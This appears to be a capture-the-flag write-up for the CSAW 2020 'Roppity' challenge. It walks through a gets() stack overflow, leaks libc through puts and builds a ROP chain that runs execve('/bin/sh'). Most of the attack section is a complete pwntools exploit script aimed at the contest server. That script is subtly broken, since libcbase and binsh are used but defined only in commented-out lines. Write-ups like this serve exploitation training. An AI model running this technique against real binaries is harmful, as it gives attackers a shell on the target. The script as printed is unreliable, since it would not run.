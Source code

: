 ```yaml
---
title: Roppity
date: "2020-07-16 22:04:31.582772"
description: "First ROP challenge from CSAW ctf 2020"
categories: ["code"]
---
```


Here's the simple ROP challenge from the CSAW 2020 qualifiers.  
To start off, when we enter some input we find that the program readily segfaults.

![Segfaults easily lol](../../assets/segfaulted.png)

Then using a disassembler (here I am using binaryninja, but you can use anyone you like), we find out that we're inputting into a buffer of size `0x20` using the `gets()` call.  
Since `rbp` is first to be pushed onto the stack, and the buffer size being offset from `rbp`, the total padding required is:

0x20 + 8 bytes for rbp = **40 bytes**

Since there is no win function, next thing we need is a way to pop the shell. There don't seem to be enough rop gadgets to pop a shell, and with the NX functionality enabled, it doesn't seem like we can use any shellcode.

![PIE disabled, NX enabled](../../assets/checksec.png)

In that case, the only thing to do is leak a libc address using the classic `puts(puts)` idea. We print out the address of puts in the GOT which should contain the address of puts in libc, by jumping to `puts@plt`.  
**Note:** We don't need to leak a code address since there is no PIE

Once we have the leak, since we know the libc version, the next problem is to run the gets call again, so that we can send in the the rop chain we generate from the libc.
To do this, we jump back to the main function, get it to repair the currently destroyed stack, and then enter in our ropchain.

The whole script is as follows.

```python
#!/usr/bin/env python3

from pwn import *

PROGNAME = "./rop"
REMOTEIP = "pwn.chal.csaw.io"
REMOTEPORT = "5016"

if args.REMOTE:
        p = remote(REMOTEIP, REMOTEPORT)
        elf = ELF(PROGNAME)
        libcelf = ELF('./libc-2.27.so')
else:
        p = process(PROGNAME)
        elf = p.elf
        libcelf = ELF('<system elf path>')
        gdb.attach(p)

# Requires 40 bytes of padding
padding = b'a' * 40

# puts address in the binary
# puts@plt
puts = 0x004004a0

# puts@got
putsGot = 0x601018

# pop rdi gadget for all the rop
popRdi = 0x0000000000400683

# Return to the main function to repair the
# destroyed stack
main = 0x004005dc

# run puts@plt with puts@got in rdi to leak a libc address
p.sendline(padding + p64(popRdi) + p64(putsGot) + p64(puts) + p64(main))

# stripping the newline
leak = p.readline()[:-1]

# the leak is only 6 bytes, with address being of the form: 0x0000<address>
libc = u64(leak + b'\x00' * 2)

# sadly the system('/bin/sh') doesn't work, possibly has been disabled
# libcbase = libc - libcelf.symbols['puts']
# libcsys = libcbase + libcelf.symbols['system']
# binsh = libcbase + next(libcelf.search(b'/bin/sh'))
# systemPayload = padding + p64(popRdi) + p64(binsh) + p64(libcsys)

# The rop chain magic
syscall = p64(libcbase + 0x00000000000d29d5)
popRsi = p64(libcbase + 0x0000000000023e8a) + p64(0)
popRdx = p64(libcbase + 0x0000000000001b96) + p64(0)
popRax = p64(libcbase + 0x0000000000043a78) + p64(59)
setBinsh = p64(popRdi) + p64(binsh)

# execve syscall
# rax: 59
# rdi: pointer to '/bin/sh\x00'
# rsi: 0
# rdx: 0
p.sendline(padding + popRsi + popRdx + popRax + setBinsh + syscall)
```
